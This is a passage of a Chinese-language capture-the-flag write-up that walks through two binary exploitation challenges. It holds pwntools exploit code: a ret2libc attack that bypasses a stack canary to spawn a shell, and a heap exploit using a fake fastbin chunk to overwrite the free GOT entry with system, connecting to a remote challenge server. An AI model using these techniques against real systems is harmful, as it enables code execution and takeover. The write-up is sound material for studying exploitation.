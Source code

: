 ```python
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x08048560
p1 = b'a' * 100 + canary +b'a'*12+ p32(puts_plt) + p32(main) + p32(puts_got)
#print(r.recvuntil(b'2021!\n'))
r.sendline(p1)

puts_addr = u32(r.recv()[0:4])
print('puts_addr:',puts_addr)
libc = LibcSearcher('puts',puts_addr)
base = puts_addr - libc.dump('puts')
sys_addr = base + libc.dump('system')
bin_sh = base + libc.dump('str_bin_sh')
p2 = b'a' * 100 + canary +b'a'*12+ p32(sys_addr) +  b'a' * 4 + p32(bin_sh)
r.sendline(p2)

r.interactive()
```
爆破好慢...
CUMTCTF{5305918b-e080-4f2d-b9b1-8a6f3ed727d5
### pwn4
edit的地方有个堆溢出漏洞

l33t是后门函数，想要触发需要使位于bss的(unsigned __int64)magic > 0x1305

unsorted bin attack，修改magic的值为unsorted bin的地址，可以使magic > 0x1305

...

被坑了。。。

竟然不是这个目录。。。。。。。。。。。

然后打算修改一下system指令的字符串，发现这个字符串被存在rodata，只读

![image-20230425230855187](https://res.cloudinary.com/sycamore/image/upload/v1682435338/Typera/2023/04/4c2f5f1d77fee1973ed990605f1b4cee.png)


只能重新搞

想办法控制heaparray，

用fake chunk修改heaparray[0]为free_got的地址，然后用edit()修改free_got为system的地址

接下来就free掉一个存了 /bin/sh\x00 的chunk，这样就可以getshell了，这个可以事先创建好这样的一个chunk来实现，然后用delete_heap调用free

fake chunk的话，可以再搞两个chunk，free第一个chunk，然后修改另一个造成堆溢出来修改第一个chunk的fd指针，使其指向fake chunk

```python
from pwn import *

#r=process("./pwn4")
r=remote('1.15.81.218', 10003)
elf=ELF("./pwn4")

heaparray=0x006020E0
fake_fastbin=0x6020ad
system_addr=0x400C2C
free_got=elf.got["free"]

def create(size,content):
    r.recvuntil("Your choice :")
    r.sendline(str(1))
    r.recvuntil("Size of Heap : ")
    r.sendline(str(size))
    r.recvuntil("Content of heap:")
    r.sendline(content)
    r.recvuntil("SuccessFul")
```